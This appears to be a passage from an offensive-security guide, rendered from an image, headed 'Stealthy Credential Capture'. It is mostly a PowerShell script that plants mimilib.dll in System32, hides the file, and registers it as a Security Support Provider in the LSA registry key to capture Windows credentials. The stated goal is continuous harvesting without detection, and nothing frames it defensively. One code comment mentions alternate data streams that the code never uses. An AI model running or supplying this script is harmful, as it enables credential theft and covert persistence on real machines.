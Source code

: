 ### **Custom SSP Attack Scenarios**

#### **Scenario 1: Stealthy Credential Capture**
```powershell
# Objective: Deploy Custom SSP for long-term credential capture
# Impact: Continuous credential harvesting without detection

Write-Host "=== STEALTHY CREDENTIAL CAPTURE SCENARIO ===" -ForegroundColor Red

# Step 1: Deploy mimilib.dll with stealth techniques
$mimilibPath = ".\mimilib.dll"
$system32Path = "$env:SystemRoot\System32\mimilib.dll"

if(Test-Path $mimilibPath) {
    Write-Host "Deploying stealthy Custom SSP..." -ForegroundColor Green
    
    # Use alternate data streams to hide the file
    try {
        # Copy file with alternate data stream
        Copy-Item -Path $mimilibPath -Destination $system32Path -Force
        
        # Hide file attributes
        $file = Get-Item -Path $system32Path
        $file.Attributes = $file.Attributes -bor [System.IO.FileAttributes]::Hidden
        
        # Register SSP stealthily
        $securityPackagesPath = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig"
        $currentPackages = Get-ItemProperty -Path $securityPackagesPath -Name "Security Packages" -ErrorAction SilentlyContinue
        
        if($currentPackages) {
            $packages = $currentPackages."Security Packages"
            if($packages -notcontains "mimilib") {
                $packages += "mimilib"
                Set-ItemProperty -Path $securityPackagesPath -Name "Security Packages" -Value $packages
                
                Write-Host "Stealthy Custom SSP deployment completed" -ForegroundColor Green
                Write-Host "File hidden and SSP registered" -ForegroundColor Green
                Write-Host "Credentials being captured to: $system32Path" -ForegroundColor Red
            }
        }
        
    } catch {
        Write-Host "Failed to deploy stealthy Custom SSP: $($_.Exception.Message)" -ForegroundColor Red
    }
    
} else {
    Write-Host "mimilib.dll not found - cannot deploy Custom SSP" -ForegroundColor Red
}
```
